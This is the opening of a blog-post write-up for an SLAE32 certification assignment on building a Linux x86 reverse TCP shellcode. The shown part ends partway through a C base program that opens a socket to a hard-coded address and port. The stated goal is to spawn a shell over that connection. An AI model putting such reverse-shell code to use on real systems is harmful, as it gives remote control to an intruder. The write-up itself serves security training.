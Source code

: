 ```yaml
---
layout: single
title: 'SLAE32 - Assignment #2 - Reverse TCP Shell'
date: 2020-08-22
classes: wide
header:
  teaser: /assets/images/SLAE32/SLAE32.jpg
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Reverse TCP Shellcode 
--- 
```



<img class="wp-image-4320 aligncenter" style="width:280px;border:none;" src="{{ site.baseurl }}/assets/images/SLAE32/SLAE32.jpg" alt="" />
<h2><span style="color:#339966;"><strong>Student ID : SLAE &nbsp;- 1314</strong></span></h2>
<p><span style="color:#339966;"><strong>Assignment 2:</strong></span>
<p style="text-align:justify;">The goal of this assignment is to create a reverse <strong>TCP <em><strong>s</strong>hellcode</em></strong> that does the following</p>

<ul>
 	<li><strong>Reverse connection to configured IP and Port</strong></li>
 	<li><strong>Executes shell on successful connection</strong></li>
 	<li><strong>IP should be easily configurable</strong></li>
</ul>
<blockquote>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification</blockquote>
<span style="color:#000000;"></span>
<blockquote>The code and scripts for this assignment can be found on my <a href="https://github.com/xvass/SLAE/tree/master/Assignment2">github</a></blockquote>
<blockquote>All the development and tests have been implemented in the following architecture</blockquote>
<blockquote><strong>Linux kali 5.4.0-kali2-686-pae #1 SMP Debian 5.4.8-1kali1 (2020-01-06) i686 GNU/Linux&nbsp;</strong></blockquote>

<p style="text-align:justify;">
For this assignment the following <strong>C</strong> program will be used as a base program in order to create our shellcode
</p>

```c

#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "192.168.200.4"
#define REMOTE_PORT 1234

int main(int argc, char *argv[])
{
struct sockaddr_in sa;
int sockfd;

sockfd = socket(AF_INET, SOCK_STREAM, 0);

sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
sa.sin_port = htons(REMOTE_PORT);
```